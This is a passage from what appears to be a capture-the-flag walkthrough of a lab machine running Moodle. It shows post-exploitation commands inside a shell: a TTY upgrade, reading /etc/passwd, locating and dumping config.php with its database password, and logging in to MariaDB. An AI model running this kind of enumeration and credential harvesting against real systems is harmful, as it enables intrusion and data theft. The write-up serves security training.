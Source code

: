 3. While inside the shell:
   ```console
   $ id
   


   $ python -c 'import pty; pty.spawn("/bin/bash")'
 
   $ cat /etc/passwd | grep bash

     root:x:0:0:root:/root:/bin/bash
     giovanni:x:1000:1000:Giovanni,1337,,:/home/giovanni:/bin/bash

   $ find /var/www -name *conf* 2> /dev/null

     ...omitted...
     /var/www/html/moodle/config.php
     ...omitted...

   $ cat /var/www/html/moodle/config.php
   ```
   - __`/var/www/html/moodle/config.php`__:
     ```php
     <?php  // Moodle configuration file

     unset($CFG);
     global $CFG;
     $CFG = new stdClass();

     $CFG->dbtype    = 'mariadb';
     $CFG->dblibrary = 'native';
     $CFG->dbhost    = 'localhost';
     $CFG->dbname    = 'moodle';
     $CFG->dbuser    = 'root';
     $CFG->dbpass    = 'Welkom1!';
     $CFG->prefix    = 'mdl_';
     $CFG->dboptions = array (
       'dbpersist' => 0,
       'dbport' => 3306,
       'dbsocket' => '',
       'dbcollation' => 'utf8mb4_unicode_ci',
     );

     $CFG->wwwroot   = 'http://10.10.10.153/moodle';
     $CFG->dataroot  = '/var/www/moodledata';
     $CFG->admin     = 'admin';

     $CFG->directorypermissions = 0777;

     require_once(__DIR__ . '/lib/setup.php');

     // There is no php closing tag in this file,
     // it is intentional because it prevents trailing whitespace problems!
     ```
   - __MariaDB CLI__:
     ```console
     $ mariadb -uroot -pWelkom1!
